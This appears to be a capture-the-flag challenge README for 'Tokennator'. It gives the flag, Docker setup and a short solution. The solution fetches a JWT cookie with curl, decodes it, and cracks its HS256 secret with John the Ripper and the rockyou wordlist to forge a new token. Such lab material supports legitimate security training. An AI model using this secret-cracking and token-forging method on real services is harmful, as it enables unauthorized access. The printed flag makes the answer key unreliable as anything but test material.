

# Tokennator

Author: Cyrus 

Date Created/Modified: 6/9/2022

Flag: GRU22{Gru_L0v3s_tokenss}

## Description
Tokens for sale


## Setup
```
docker build -t tokenator .
docker run -d -p 5121:5121 --rm -it tokenator
```

## Solution
Obtain Cookie from
```
curl -c - https://ipaddress:5121/flag
```
Decoding it in https://jwt.io/
```
{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "fresh": false,
  "iat": 1662436293,
  "jti": "35bee9f9-e466-49ef-a1bf-f6738ceb3a88",
  "type": "access",
  "sub": "anonymous",
  "nbf": 1662436293,
  "csrf": "4dcc47fd-f507-497f-b15f-193f64f5a2df",
  "exp": 1662437193
}
```

Obtain secret key
```
john jwt.txt --wordlist=rockyou.txt --format=HMAC-SHA256
john --show jwt.txt
```

Recreate the token with key



Replace token and obtain flag

